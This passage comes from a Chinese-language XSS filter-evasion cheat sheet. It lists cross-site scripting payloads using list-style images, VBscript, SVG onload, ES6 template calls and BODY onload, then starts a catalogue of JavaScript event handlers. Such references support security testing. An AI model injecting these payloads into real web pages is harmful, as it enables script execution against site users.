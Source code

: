 ### 列表样式图像

这种深奥的攻击专注于嵌入项目符号列表的图像。由于 JavaScript 指令，它只能在 IE 渲染引擎中工作。不是一个特别有用的 XSS 向量：

```html
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

### 图像中的 VBscript

```html
<IMG SRC='vbscript:msgbox("XSS")'>
```

### SVG 对象标签

```js
<svg/onload=alert('XSS')>
```

### ECMAScript 6

```js
Set.constructor`alert\x28document.domain\x29
```

### BODY 标签

这种攻击不需要使用 `javascript:` 或 `<SCRIPT...` 的任何变体来完成 XSS 攻击。Dan Crowley 指出，你可以在等号前放置一个空格（`onload=` != `onload =`）：

```html
<BODY ONLOAD=alert('XSS')>
```

#### 使用事件处理程序的攻击

BODY 标签的攻击可以修改用于类似于上面的 XSS 攻击（在撰写本文时，这是网络上最全面的列表）。感谢 Rene Ledosquet 提供 HTML+TIME 更新。

# JavaScript 事件处理程序列表

[Dottoro Web 参考](http://help.dottoro.com/)还提供了一个很好的 [JavaScript 事件列表](http://help.dottoro.com/ljfvvdnm.php)。

- `onAbort()`（当用户中止图像加载时）
- `onActivate()`（当对象被设置为活动元素时）
- `onAfterPrint()`（在用户打印或预览打印作业后激活）
- `onAfterUpdate()`（在源对象中更新数据后在数据对象上激活）
- `onBeforeActivate()`（在对象被设置为活动元素之前触发）
- `onBeforeCopy()`（攻击者在选择被复制到剪贴板之前执行攻击字符串 - 攻击者可以使用 `execCommand("Copy")` 函数来做到这一点）
- `onBeforeCut()`（攻击者在选择被剪切之前执行攻击字符串）
- `onBeforeDeactivate()`（在当前对象的活动元素更改后立即触发）
- `onBeforeEditFocus()`（在可编辑元素中的对象进入 UI 激活状态之前触发，或当可编辑容器对象被控制选择时）
- `onBeforePaste()`（需要诱使用户粘贴或使用 `execCommand("Paste")` 函数强制粘贴）
- `onBeforePrint()`（需要诱使用户打印，或攻击者可以使用 `print()` 或 `execCommand("Print")` 函数）
- `onBeforeUnload()`（需要诱使用户关闭浏览器 - 攻击者无法卸载窗口，除非它是从父窗口生成的）
- `onBeforeUpdate()`（在源对象中更新数据之前在数据对象上激活）
- `onBegin()`（当元素的时间线开始时立即触发）
- `onBlur()`（在加载另一个弹出窗口并且窗口失去焦点的情况下）
- `onBounce()`（当 marquee 对象的行为属性设置为"alternate"且 marquee 内容到达窗口一侧时触发）
- `onCellChange()`（当数据提供者中的数据发生变化时触发）
- `onChange()`（选择、文本或 TEXTAREA 字段失去焦点且其值已被修改）
- `onClick()`（有人点击表单）
- `onContextMenu()`（用户需要右键点击攻击区域）
- `onControlSelect()`（当用户即将选择对象的控件时触发）
- `onCopy()`（用户需要复制某些内容，或可以使用 `execCommand("Copy")` 命令利用）
- `onCut()`（用户需要复制某些内容，或可以使用 `execCommand("Cut")` 命令利用）